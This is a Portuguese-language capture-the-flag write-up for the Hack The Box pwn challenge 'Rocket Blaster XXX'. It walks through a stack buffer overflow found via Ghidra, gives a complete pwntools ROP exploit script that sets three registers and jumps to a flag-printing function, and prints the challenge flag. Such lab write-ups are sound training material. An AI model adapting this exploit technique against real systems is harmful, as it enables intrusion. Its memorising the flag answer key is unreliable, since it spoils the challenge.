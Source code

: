 # WriteUp: Rocket Blaster XXX

## Descrição do Desafio:
**Autor**: [w3th4nds](https://app.hackthebox.com/users/70668) \
**Plataforma**: [Hack The Box](https://app.hackthebox.com/challenges/664) \
**Categoria**: Pwn \
**Dificuldade**: Fácil \
**Data**: 2024 \
**Descrição**:
> Prepare for the ultimate showdown! Load your weapons, gear up for battle, and dive into the epic fray—let the fight commence!

## Passo a Passo da Solução
### 1. Análise do arquivo fornecido
O desafio não fornece código-fonte, e executando o executável vemos que podemos inserir algum *input*. Após isso o programa encerra a execução.

```bash
Prepare for trouble and make it double, or triple..

You need to place the ammo in the right place to load the Rocket Blaster XXX!

>> HawkSec_Best_Team

Preparing beta testing..
```

Analisando o assembly pelo **Ghidra**, podemos perceber que o código se resume basicamente a função `main()` que chama uma função para definir uns valores iniciais e chama outra para imprimir o banner, por fim chama a `read()` para ler a entrada do usuário.

{% code title="main" overflow="wrap" lineNumbers="true" %}

```c
undefined8 main(void)

{
  undefined8 local_28;
  undefined8 local_20;
  undefined8 local_18;
  undefined8 local_10;
  
  banner();
  local_28 = 0;
  local_20 = 0;
  local_18 = 0;
  local_10 = 0;
  fflush(stdout);
  printf(
        "\nPrepare for trouble and make it double, or triple..\n\nYou need to place the ammo in the right place to load the Rocket Blaster XXX!\n\n>> "
        );
  fflush(stdout);
  read(0,&local_28,0x66);
  puts("\nPreparing beta testing..");
  return 0;
}
```

{% endcode %}

Porém, podemos notar mais duas outras coisas. A primeira é que o *buffer* pode ser estourado por meio da quantidade informada na função `read()`, e a segunda é que existe uma função denominada `fill_ammo()` que imprime a **flag** caso seus parâmetros sejam iguais a `0xdeadbeef`, `0xdeadbabe`, e `0xdead1337`.

### 2. Exploit
Este desafio consiste no *exploit* conhecido como **ROP**, pois nosso objetivo é controlar o fluxo de retorno da função `main()`, de forma que seja possível retornar para instruções que nos permitam modificar o valor de registradores específicos, para definirmos os parâmetros, e por fim retorne para a função `fill_ammo()`.

{% hint style="info" %}

**Nota:** Se o executável fosse **32-bits** o *exploit* seria apenas um *buffer overflow*, pois nessa arquitetura os parâmetros são passados pela pilha.

{% endhint %}

Como o executável não contém a proteção `PIE`, não precisamos nos preocupar com vazar algum endereço, e podemos verificar a existência dos *gadgets* através do comando `ROPgadget --binary=rocket_blaster_xxx`. 

Por meio do comando, verificamos que existe os *gadgets* para os parâmetros, e por fim, podemos identificar a quantidade de *bytes* que devemos escrever com lixo para chegar no endereço de retorno por meio do **pwndbg**, um *breakpoint*, e um *buffer* estourado.

{% code title="solve.py" overflow="wrap" lineNumbers="true" %}

```py
from pwn import *

elf = context.binary = ELF("./rocket_blaster_xxx")
p = remote("ip", porta)
#p = process()

# ROP gadgets.
pop_param1 = 0x000000000040159f
pop_param2 = 0x000000000040159d
pop_param3 = 0x000000000040159b
# Parâmetros.
param1 = 0xdeadbeef
param2 = 0xdeadbabe
param3 = 0xdead1337
# Payload
payload = flat(
    "A" * 40,
    p64(pop_param1),
    p64(param1),
    p64(pop_param2),
    p64(param2),
    p64(pop_param3),
    p64(param3),
    p64(0x000000000040101a), # instrução ret para alinhar a pilha
    p64(elf.sym["fill_ammo"])
)

p.sendlineafter(b">> ", payload)

print(p.recvall().decode())
```

{% endcode %}

### Flag
`HTB{b00m_b00m_b00m_3_r0ck3t5_t0_th3_m00n}`

## Autor da WriteUp
[Membro de Exploitation - HenriUz](https://github.com/HenriUz)